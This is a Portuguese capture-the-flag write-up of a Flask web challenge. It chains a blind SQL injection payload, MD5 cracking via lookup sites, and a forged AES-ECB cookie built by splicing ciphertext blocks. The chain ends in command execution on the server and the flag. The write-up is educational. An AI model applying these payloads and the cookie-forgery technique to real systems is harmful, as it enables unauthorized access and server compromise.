




# Por via das dúvidas
### _WEB_

Analisando o código fonte do desafio, logo encontra-se um SQL Injection em:
```
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.html")
    else:
        email = request.form.get("email")
        password = request.form.get("password")
        remember_me = True if request.form.get("remember_me") else False
        result = get_db().execute("SELECT rowid,* FROM users WHERE email ='" + email + "'")
        result = result.fetchall()[0]
        user = load_user(result[0])
        if email == user.email and hashlib.md5(password.encode()).hexdigest() == user.password:
            login_user(user, remember=remember_me)
            return redirect(url_for("profile"))
        else:
            flash("Por favor, verifique suas credenciais.")
            return redirect(url_for("login"))
```

Na verdade, um Blind SQL Injection. Caso a query não seja satisfeita ocorre um erro 500, pois a aplicação "crasha" e caso a query seja satisfeita, o usuário é redirecionado para a página de login novamente (já que a query retorna dados, mas as senhas não são iguais).

Então construindo o payload, temos:
```
' OR ((SELECT substr(email,1,1) FROM users LIMIT 1)=='{}') -- -
```

Substituindo {} por qualquer caracter do alfabeto, conseguimos extrair os dados do banco de dados. (Verifique o código completo de exploração do sqli em sqli.py)

Após conseguirmos extrair dados do banco de dados, teremos as senhas criptografadas em MD5. Nada que uma pesquisa numa database não resolva (hashkiller.io ou crackstation.net).

Logando com a conta adquirida, nos deparamos com a seguinte página:


Segundo o código fonte da aplicação, qualquer usuário pode acessar a rota "/encrypt". Porém a rota "/execute" é apenas para o usuário admin (veja no primeiro if do trecho de código abaixo):
```
@app.route("/execute", methods=["GET", "POST"])
@login_required
def execute():
    permission = request.cookies.get('perm')
    if permission is not None and current_user.username == "admin":
        decoded_perm = AESCipher().decrypt(permission).decode()
        if decoded_perm == "execution_exec_ok":
            command_encoded = request.form.get('cmd')
            if command_encoded is None: return '''<p></p>'''
            command_decoded = AESCipher().decrypt(command_encoded).decode()

            if len(command_decoded) > 3: return '''<p></p>'''

            return '''{}'''.format(os.popen(command_decoded).read())
    return '''<p>Você não tem permissão para executar comandos.</p>'''
```

Sendo assim, se o seu usuário extraido não for o admin, você precisará voltar a fase de SQL Injection e extrair novos usuários.

Por fim, com o user admin: ```admin@admin.com:4b99e4ad8eabc68770e4c2bdf32298d8 (admin-password)```, temos acesso completo as rotas.

Voltando para o trecho de código acima, é possível identificar um ```os.popen``` que é uma função de execução de comandos. Como a flag está nas váriaveis de ambiente, precisamos executar código para obte-lá.

Analisando ainda o trecho de código acima, encontramos também que a aplicação espera um cookie chamado ```perm``` cujo valor deve ser ```execution_exec_ok``` e para passar o comando devemos passar via POST no parâmetro ```cmd```. Porém, tanto ```perm``` quanto ```cmd``` sofrem um processo de decodificação.

Então, para fazer a codificação dos valores (para a futura decodificação) devemos olhar a rota "/encrypt":
```
@app.route("/encrypt", methods=["GET"])
@login_required
def encrypt():
    text = request.args.get('text')
    if text == None:
        return '''<p>?????</p>'''
    if len(text) > 16:
        return redirect(url_for("profile"))
    return '''<p>{}</p>'''.format(AESCipher().encrypt(text).decode())
```

Essa rota recebe um texto (```text```) a ser criptografado, porém não pode ter tamanho maior que 16. E é aí que existe um impasse: a aplicação espera que o cookie ```perm``` tenha o seguinte valor ```execution_exec_ok```, porém esse último tem tamanho maior que 16. O que devemos fazer? 

Iremos analisar a classe AESCipher(), que faz a criptografia e a descriptografação dos valores passados:
```
class AESCipher(object):
    def __init__(self):
        self.key = os.environ['FLAG']
        self.cipher = AES.new(self.key.encode('utf-8'), AES.MODE_ECB)
        self.BLOCK_SIZE = 16
        self.pad = lambda s: s + (self.BLOCK_SIZE - len(s) % self.BLOCK_SIZE)*chr(self.BLOCK_SIZE - len(s) % self.BLOCK_SIZE)
        self.unpad = lambda s: s[:-ord(s[len(s)-1:])]

    def encrypt(self, text):
        text = self.pad(text).encode('utf-8')
        return hexlify(self.cipher.encrypt(text))

    def decrypt(self, enc):
        return self.unpad(self.cipher.decrypt(unhexlify(enc)))
```

Essa classe é uma implementação padrão do AES-ECB.

### Resumo do funcionamento do ECB
O modo de operação **Eletronic Codeblock (ECB)** é um dos modos de mais antigos e simples da criptografia de cifra de blocos. Nele, a mensagem a ser criptografada é dividida em blocos de mesmo tamanho, onde cada um desses blocos é criptografado separadamente (ou melhor, paralelamente).


A imagem acima explicíta melhor o funcionamento do mesmo: cada bloco de texto puro é criptografado utilizando a mesma KEY, gerando as "cifras de texto".

E o processo de descriptografia é idêntico:


Onde cada cifra de texto é separada em blocos de mesmo tamanho e é aplicado, separadamente (ou paralelamente), a função de descriptografação utilizando a mesma KEY.

Voltando a implementação do AES-ECB. Podemos identificar que para criptografar a mensagem, é chamada a função ```self.pad```. Vamos analisar essa:
```self.pad = lambda s: s + (self.BLOCK_SIZE - len(s) % self.BLOCK_SIZE)*chr(self.BLOCK_SIZE - len(s) % self.BLOCK_SIZE)```

A função preenche o último bloco com alguns bytes. Ela verifica quantos caracteres faltam para completar o ```self.BLOCK_SIZE```. Exemplo:
```
mensagem: TESTE-CTF-AES-ECB
```
Dividindo a mensagem em blocos de tamanho 16, teremos 2 blocos:
```
TESTE-CTF-AES-EC     B
```
Pode-se ver que o último bloco só contém 1 caracter. Portanto, como o ECB só trabalha com blocos de mesmo tamanho, é preciso preenche-lo. Então, a função ```self.pad``` entra em ação:
```
len(mensagem) = 17
(self.BLOCK_SIZE - len(mensagem) % self.BLOCK_SIZE) = (16 - 17 % 16) = 15
chr(self.BLOCK_SIZE) - len(mensagem) % self.BLOCK_SIZE) = chr(16 - 17 % 16) = chr(15)
```

Na linha 2 do trecho acima, o ```self.pad``` pega o total de caracteres que precisam ser gerados para o bloco ser preenchido. E na linha 3, a função "escolhe" qual byte irá gerar para completar o bloco.

Por fim, o bloco é preenchido com 15 bytes '\x0f':
```
TESTE-CTF-AES-EC     B\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f
```

E, após isso, a função retorna esses 2 blocos e é gerado a cifra de texto correspondente a "TESTE-CTF-AES-ECB" em hexadecimal.

```
TESTE-CTF-AES-EC : db6d1aea030058bca5017279da740796
B\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f\x0f : bcc5f6bc9a6ec02b4b324eae047f2169

TESTE-CTF-AES-ECB: db6d1aea030058bca5017279da740796bcc5f6bc9a6ec02b4b324eae047f2169
```

Na função de descriptografação, o processo é o mesmo: converte de hexadecimal para bytes, faz a descriptografação e realiza o ```self.unpad```: retira os bytes "zoados" do final da string.

Voltando a rota "/encrypt". O nosso problema lá era criptografar texto com mais de 16 caracteres. Agora sabendo como funciona o criptografação do AES-ECB, nós podemos deduzir que criptografar 17 caracteres de uma vez ou criptografar 16 caracteres + criptografar 1 caracter restante dará o mesmo resultado, pois no primeiro caso a mensagem é quebrada entre a posição 16 e 17 e no segundo caso nós estamos criptografar 16 caracteres e depois o último caracter (**é como se estivessemos imitando o processo de criação de blocos**). E, por fim, a descriptografação vai tratar os dois casos igualmente.

A partir disso, enviando para "/encrypt": ```?text=execution_exec_o``` e também: ```?text=k```, temos, respectivamente, as cifras:
```
92286ebc9f171ceb9d027f039247b15dc45771c64b37743ad2e6ba7a0099fc5e
36e6f394e64f62e2b437ecda44dc183b
```

Juntando agora as cifras correspondentes a cada substring, ```execution_exec_o``` e ```k```:
```
92286ebc9f171ceb9d027f039247b15d36e6f394e64f62e2b437ecda44dc183b
```

Vale lembrar que para ```execution_exec_o``` pegamos apenas os primeiros 32 caracteres do hexadecimal pois é o equivalente a mensagem, a partir da posição 32 é equivalente ao padding.

Utilizando a cifra como cookie, temos acesso ao "/execute":


Criptografando nosso comando ```ls```:
```
279da5b723d7a98251bb338ccd47580c
```

E passando-a no parâmetro ```cmd```, temos o seguinte resultado:


FLAG:
```
DC5551{RCe_1ECB}
```
